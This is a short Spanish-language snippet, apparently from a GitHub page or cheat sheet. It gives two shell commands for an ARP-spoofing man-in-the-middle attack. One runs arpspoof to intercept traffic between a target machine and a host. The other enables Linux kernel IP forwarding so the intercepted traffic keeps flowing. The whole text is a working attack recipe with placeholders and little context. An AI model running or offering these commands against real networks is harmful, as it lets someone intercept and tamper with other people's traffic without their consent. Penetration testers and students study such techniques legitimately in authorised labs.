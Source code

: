 ### Interceptar tráfico entre 192.168.4.11(Target) y 192.168.4.16 (Host):
$ arpspoof -i {INTERFACE} -t {TARGET} -r {HOST}
### Habilitar el Linux Kernel IP Forwarding:
$ echo 1> /proc/sys/net/ipv4/ip_forward